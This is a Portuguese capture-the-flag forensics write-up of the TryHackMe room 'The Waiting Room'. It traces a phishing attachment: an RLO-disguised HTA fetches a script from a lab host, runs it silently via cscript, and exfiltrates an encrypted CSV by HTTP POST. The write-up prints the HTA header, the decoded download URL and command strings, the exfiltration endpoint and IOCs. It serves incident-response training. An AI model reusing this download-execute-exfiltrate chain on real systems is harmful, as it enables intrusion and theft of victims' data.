






# TryHackMe – The Waiting Room (Writeup)

**Room:** https://tryhackme.com/room/thewaitingroom
**Categoria:** Forense / Análise de malware
**Cenário:** Michelle Smith recebeu um e-mail de um fornecedor sobre uma rodada de pagamentos. Depois que ela abriu o anexo, a estação de trabalho contatou um serviço desconhecido. A missão é analisar o e-mail, os eventos do Windows e o tráfego capturado para reconstruir a cadeia de execução e descobrir **o que saiu da estação**.

**Evidências fornecidas**

- E-mail do fornecedor (`.eml`)
- Log de eventos do Windows / Sysmon (`.evtx`)
- Captura de rede (`incident.pcap`)

**Host:** `MERIDIAN` (`meridian.thm`)
**Usuária comprometida:** `MERIDIAN\m.smith`

---

## Resumo das respostas

| # | Pergunta | Resposta |
|---|----------|----------|
| 1 | SHA-256 do anexo embutido que iniciou a atividade | `e3e53f2e21df0b56eeb62d50146c4d69eb8cbc1bab5b8ba13f8ba5859870f6b3` |
| 2 | Code point Unicode usado para disfarçar o nome do anexo | `U+202E` |
| 3 | Hostname que serviu o estágio baixado | `portal.meridian.thm` |
| 4 | PID do interpretador que executou o script baixado | `1996` |
| 5 | Chave de criptografia que protegia o documento transferido | `3c7a8c88466f5b869bea15f333e3be01` |
| 6 | SHA-256 do documento transferido | `c19c4964c2a77872c49750cc1c2dd443b48fba984b41988aec6fbc780faed09a` |

---

## Task 1 – SHA-256 do anexo embutido

### Metodologia

1. O anexo do e-mail é um arquivo **OneNote**, que pode carregar objetos embutidos. Usei um script em Python (`script.py`) para fazer *carving* desses objetos sem executá-los. Foram extraídos **6 objetos**:

| Arquivo | Tamanho | Tipo identificado |
|---------|---------|-------------------|
| `onenote_embedded_0.bin` | 239 B | PNG (`89504e47...`) |
| `onenote_embedded_1.bin` | 1866 B | **HTML Application (HTA)** |
| `onenote_embedded_2.bin` | 1074 B | PNG |
| `onenote_embedded_3.bin` | 767 B | PNG |
| `onenote_embedded_4.bin` | 2419 B | PDF (`%PDF-1.4`, gerado com ReportLab) |
| `onenote_embedded_5.bin` | 100 B | CSV (`item,quantity,unit_cost,total`) |

2. Para identificar cada um, rodei `strings` nos primeiros 200 bytes:

```bash
for f in /tmp/onenote_embedded_*.bin; do
    echo "=== $f ==="
    head -c 200 "$f" | strings
done
```

3. O `onenote_embedded_1.bin` é o suspeito. Começa com:

```html
<!DOCTYPE html><html><head><title>Remittance Advice</title><hta:application id="receipt" applicationname="Remittance Advice" border="thin" showintaskbar="no" windowstate="minimize"/><script language="
```

   É um HTA com janela minimizada e fora da barra de tarefas, ou seja, pensado para rodar sem chamar atenção. Os outros objetos (imagens, PDF e CSV) são iscas legítimas.

4. Calculei o hash do HTA:

```bash
sha256sum /tmp/onenote_embedded_1.bin
```



**Resposta:** `e3e53f2e21df0b56eeb62d50146c4d69eb8cbc1bab5b8ba13f8ba5859870f6b3`

---

## Task 2 – Code point Unicode do disfarce

### Metodologia

1. Procurei no binário extraído do anexo (`extracted_attachment.bin`) pelo nome `Remittance_` em **UTF-16LE**, já que o OneNote guarda nomes de arquivo nesse formato:

```python
data = open("extracted_attachment.bin", "rb").read()
needle = "Remittance_".encode("utf-16le")
pos = 0

while True:
    pos = data.find(needle, pos)
    if pos < 0:
        break
    chunk = data[pos:pos+100]
    print(f"\nOffset: {pos:#x}")
    print("Bytes:", chunk.hex(" "))
    print("Texto:", repr(chunk.decode("utf-16le", errors="replace")))
    pos += len(needle)
```

2. Em três offsets (`0x20a6`, `0x20d2` e `0x2160`) aparece:

```
Remittance_\u202efdp.hta
```

   Em bytes, depois de `5f 00` (o `_`) vem `2e 20`, que em UTF-16LE é **U+202E**.

3. **U+202E** é o *RIGHT-TO-LEFT OVERRIDE* (RLO): inverte a ordem de exibição dos caracteres seguintes. O nome real `Remittance_[RLO]fdp.hta` aparece para a vítima como `Remittance_ath.pdf`, parecendo um PDF, mas na verdade é um **`.hta`**.



**Resposta:** `U+202E`

---

## Task 3 – Hostname que serviu o estágio baixado

### Metodologia

1. Abri `incident.pcap` (476 pacotes) no Wireshark e apliquei o filtro `http.request`, que retornou 2 requisições:

| Frame | Origem → Destino | Requisição |
|-------|------------------|------------|
| 450 | 10.0.2.15 → 10.0.2.2:8080 | `GET /assets/remittance-v2.png HTTP/1.1` |
| 465 | 10.0.2.15 → 10.0.2.2:8080 | `POST /api/receipt HTTP/1.1` (JSON) |

2. No frame 450, o cabeçalho HTTP mostra:

```
Host: portal.meridian.thm:8080
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; ...)
[Full request URI: http://portal.meridian.thm:8080/assets/remittance-v2.png]
```

   O User-Agent de MSIE 7.0 é típico de scripts Windows que usam `MSXML2.XMLHTTP`, e não de um navegador moderno.

3. O arquivo `remittance-v2.png` tem extensão de imagem, mas foi o **estágio de JavaScript** baixado pelo HTA.
4. Nos eventos do Sysmon, o **Event ID 22** (DNS query) confirma a resolução de `portal.meridian.thm` (resultado `10.0.2.2`), seguido do **Event ID 3** (conexão TCP) de `10.0.2.15` para `10.0.2.2:8080`.



**Resposta:** `portal.meridian.thm`

---

## Task 4 – PID do interpretador que executou o script

### Metodologia

1. Analisei os eventos do Sysmon e encontrei o **Event ID 1** (Process Create) do `cscript.exe`:

```
Image:             C:\Windows\SysWOW64\cscript.exe
CommandLine:       "C:\Windows\System32\cscript.exe" //B //Nologo "C:\Users\m.smith\AppData\Local\Meridian\receipt.js" MR-6106-028
CurrentDirectory:  C:\Users\m.smith\Downloads\PO-1048\
User:              MERIDIAN\m.smith
ProcessId:         1996
ParentImage:       C:\Windows\SysWOW64\mshta.exe
ParentProcessId:   4780
UtcTime:           2026-10-06 18:02:29.242
```

2. Pontos importantes:
   - O `mshta.exe` (PID 4780) abriu o HTA e iniciou o `cscript.exe`.
   - `//B //Nologo` executa o script em **modo silencioso**, sem janelas ou prompts.
   - O script `receipt.js` foi gravado em `%LOCALAPPDATA%\Meridian\` e recebeu a referência `MR-6106-028` como argumento.
3. Eventos relacionados ao **mesmo PID 1996**:
   - **Event ID 1**: `conhost.exe` (PID 4372), tendo o `cscript.exe` como pai.
   - **Event ID 5**: término do processo `cscript.exe`.
   - **Event ID 22**: consulta DNS de `portal.meridian.thm`.
   - **Event ID 3**: conexão TCP para `10.0.2.2:8080`.



**Resposta:** `1996`

---

## Task 5 – Chave de criptografia do documento

### Metodologia

1. Primeiro tentei achar a chave direto nas strings do HTA, procurando termos como `RC4`, `key` e `passphrase`:

```bash
strings -n 4 /tmp/onenote_embedded_1.bin | grep -inE 'RC4|decrypt|encrypt|key|passphrase|secret|Crypt'
```

   Não houve resultado: as strings do script estavam **ofuscadas**.

2. O HTA guarda uma tabela (`entries`) com strings em hexadecimal. Cada byte foi codificado com **XOR `0x39`**. Para reverter:

```python
for i, h in enumerate(entries):
    decoded = ''.join(chr(int(h[j:j+2], 16) ^ 0x39)
                      for j in range(0, len(h), 2))
    print(f"entries[{i}]: {decoded!r}")
```

3. Resultado da tabela decodificada:

| Índice | Valor |
|--------|-------|
| 0 | `MSXML2.XMLHTTP.6.0` |
| 1 | `Scripting.FileSystemObject` |
| 2 | `WScript.Shell` |
| 3 | `http://portal.meridian.thm:8080/assets/remittance-v2.png` |
| 4 | `%LOCALAPPDATA%` |
| 5 | `\Meridian` |
| 6 | `\receipt.js` |
| 7 | `GET` |
| 8 | `cscript.exe //B //Nologo ` |
| 9 | **`3c7a8c88466f5b869bea15f333e3be01`** |
| 10 | `MR-6106-028` |

   A tabela descreve todo o comportamento do HTA: baixa o estágio por `GET`, grava `receipt.js` em `%LOCALAPPDATA%\Meridian` e o executa com `cscript.exe`. A entrada 9 é uma sequência de 32 caracteres hexadecimais (128 bits) e é a **chave**.

4. Para confirmar, usei a chave em um script de decifragem (`decrypt.py`) e o resultado em texto claro começa com `invoice,vendor,d` (veja a Task 6), o que mostra que a chave está correta.



**Resposta:** `3c7a8c88466f5b869bea15f333e3be01`

---

## Task 6 – SHA-256 do documento transferido

### Metodologia

1. No Wireshark, o frame 465 é um `POST /api/receipt` com corpo JSON (`application/json`). Copiei o conteúdo em hexadecimal para `post_hex.txt` e o decodifiquei com `decode_post.py`:

```
Referência: MR-6106-028
Estação: MERIDIAN
Usuário: m.smith
Documento: payment-register.csv
Tamanho dos dados: 331 bytes
Primeiros 16 bytes: 537564538dec97e09fb34cc8fcbce8af
```

   Os dados enviados estavam **criptografados**, e o documento exfiltrado era o `payment-register.csv`.

2. Com a chave da Task 5, executei `decrypt.py` e obtive:

```
Documento: payment-register.csv
Tamanho: 331 bytes
SHA-256: c19c4964c2a77872c49750cc1c2dd443b48fba984b41988aec6fbc780faed09a
Primeiros 16 bytes: 696e766f6963652c76656e646f722c64
```

3. Os primeiros 16 bytes decifrados (`696e766f6963652c76656e646f722c64`) correspondem em ASCII a `invoice,vendor,d`, o cabeçalho de um CSV legítimo. O tamanho (331 bytes) bate com o informado no JSON.



**Resposta:** `c19c4964c2a77872c49750cc1c2dd443b48fba984b41988aec6fbc780faed09a`

---

## Linha do tempo e cadeia de execução

| Etapa | Evento | Evidência |
|-------|--------|-----------|
| 1 | Michelle Smith recebe o e-mail do fornecedor com o anexo OneNote | `.eml` |
| 2 | O objeto embutido `Remittance_[U+202E]fdp.hta` aparece como `Remittance_ath.pdf` | Offsets `0x20a6`, `0x20d2`, `0x2160` |
| 3 | `mshta.exe` (PID 4780) abre o HTA em `Downloads\PO-1048\` | Sysmon EID 1 |
| 4 | O HTA decodifica sua tabela (XOR `0x39`) e faz `GET` de `remittance-v2.png` em `portal.meridian.thm:8080` | pcap, frame 450 |
| 5 | O conteúdo baixado é gravado como `%LOCALAPPDATA%\Meridian\receipt.js` | Tabela decodificada |
| 6 | `cscript.exe //B //Nologo receipt.js MR-6106-028` roda com **PID 1996** (UtcTime 2026-10-06 18:02:29.242) | Sysmon EID 1 |
| 7 | O script cifra `payment-register.csv` (331 bytes) com a chave `3c7a8c88...3be01` | `decrypt.py` |
| 8 | `POST /api/receipt` envia o JSON com o arquivo cifrado ao servidor | pcap, frame 465 |

```
E-mail ──► anexo OneNote ──► Remittance_[RLO]fdp.hta  (parece .pdf)
                                   │
                                   ▼
                              mshta.exe (4780)
                                   │  GET /assets/remittance-v2.png
                                   ▼
                       portal.meridian.thm:8080  ──► receipt.js
                                   │
                                   ▼
                  cscript.exe //B //Nologo (PID 1996)
                                   │  POST /api/receipt (payment-register.csv cifrado)
                                   ▼
                          portal.meridian.thm:8080
```

---

## Mapeamento MITRE ATT&CK

| Tática | Técnica | ID | Evidência |
|--------|---------|----|-----------|
| Initial Access | Phishing: Spearphishing Attachment | T1566.001 | E-mail do fornecedor com anexo OneNote |
| Execução | User Execution: Malicious File | T1204.002 | Usuária abriu o HTA disfarçado |
| Defense Evasion | Masquerading: Right-to-Left Override | T1036.002 | `U+202E` no nome do arquivo |
| Defense Evasion | System Binary Proxy Execution: Mshta | T1218.005 | `mshta.exe` executando o HTA |
| Defense Evasion | Obfuscated Files or Information | T1027 | Tabela de strings com XOR `0x39` |
| Execução | Command and Scripting Interpreter: JavaScript | T1059.007 | `cscript.exe` executando `receipt.js` |
| Command and Control | Ingress Tool Transfer | T1105 | Download de `remittance-v2.png` (na verdade, um script) |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | HTTP na porta 8080 |
| Collection | Data from Local System | T1005 | Leitura de `payment-register.csv` |
| Exfiltration | Exfiltration Over C2 Channel | T1041 | `POST /api/receipt` com dados cifrados |

---

## Indicadores de comprometimento (IOCs)

| Tipo | Valor |
|------|-------|
| Host | `MERIDIAN` (`10.0.2.15`) |
| Usuária | `MERIDIAN\m.smith` |
| Servidor | `portal.meridian.thm` (`10.0.2.2`, porta `8080`) |
| URL de download | `http://portal.meridian.thm:8080/assets/remittance-v2.png` |
| Endpoint de exfiltração | `POST http://portal.meridian.thm:8080/api/receipt` |
| Nome do anexo | `Remittance_[U+202E]fdp.hta` (exibido como `Remittance_ath.pdf`) |
| SHA-256 do HTA | `e3e53f2e21df0b56eeb62d50146c4d69eb8cbc1bab5b8ba13f8ba5859870f6b3` |
| Script em disco | `%LOCALAPPDATA%\Meridian\receipt.js` |
| Linha de comando | `cscript.exe //B //Nologo ...\receipt.js MR-6106-028` |
| Chave de criptografia | `3c7a8c88466f5b869bea15f333e3be01` |
| Documento exfiltrado | `payment-register.csv` (331 bytes) |
| SHA-256 do documento | `c19c4964c2a77872c49750cc1c2dd443b48fba984b41988aec6fbc780faed09a` |
| Referência | `MR-6106-028` |

---

## Ferramentas utilizadas

- Python 3 (`script.py` para o carving do OneNote, decodificação XOR, `decode_post.py` e `decrypt.py`)
- `strings`, `head`, `grep` e `sha256sum`
- Wireshark (`incident.pcap`, filtro `http.request`)
- Logs do Sysmon (Event IDs 1, 3, 5 e 22)

---